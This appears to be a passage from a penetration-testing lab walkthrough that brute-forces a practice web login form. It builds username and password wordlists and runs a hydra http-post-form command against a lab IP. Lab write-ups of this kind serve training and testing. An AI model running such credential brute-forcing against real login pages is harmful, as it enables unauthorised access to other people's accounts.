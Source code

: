 - Open the `http://192.210.201.3/login.php` page, view source code and check the parameters passed in the login form.

![](.gitbook/assets/image-20230505005152468.png)

- Prepare a usernames and a passwords list

```bash
echo -e "admin\nbee\nuser1\nuser2" > users
cat /root/Desktop/wordlists/100-common-passwords.txt > pws
echo "bug" >> pws

```

- Use **`hydra`** to retrieve the credentials

```bash
hydra -L users -P pws 192.210.201.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```

![image-20230505005851326](.gitbook/assets/image-20230505005851326.png)
